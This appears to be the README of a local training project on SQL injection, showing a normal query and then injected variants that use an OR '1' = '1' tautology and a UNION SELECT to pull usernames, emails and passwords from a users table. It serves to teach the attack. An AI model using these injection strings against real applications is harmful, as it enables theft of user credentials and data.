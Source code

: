 # appsec-validation-injection-sql

http://localhost:8080/h2-console/login.jsp?jsessionid=6350ae370854407184e14377bbff4db7

```sql
SELECT id, slug, title FROM posts, user_posts WHERE posts.id = user_posts.post_id AND user_posts.user_id = 2 AND slug = 'post-a'
```

![appsec-validation-injection-sql-retrieve-post-by-user.png](README/appsec-validation-injection-sql-retrieve-post-by-user.png)

```sql
SELECT id, slug, title FROM posts, user_posts WHERE posts.id = user_posts.post_id AND user_posts.user_id = 2 AND slug = 'post-a' OR '1' = '1'
```

![appsec-validation-injection-sql-retrieve-all-posts.png](README/appsec-validation-injection-sql-retrieve-all-posts.png)

```sql
SELECT id, slug, title FROM posts, user_posts WHERE posts.id = user_posts.post_id AND user_posts.user_id = 2 AND slug = 'post-a' UNION SELECT id, username, email, password FROM users WHERE '1'= '1'
```

![appsec-validation-injection-sql-retrieve-all-users.png](README/appsec-validation-injection-sql-retrieve-all-users.png)
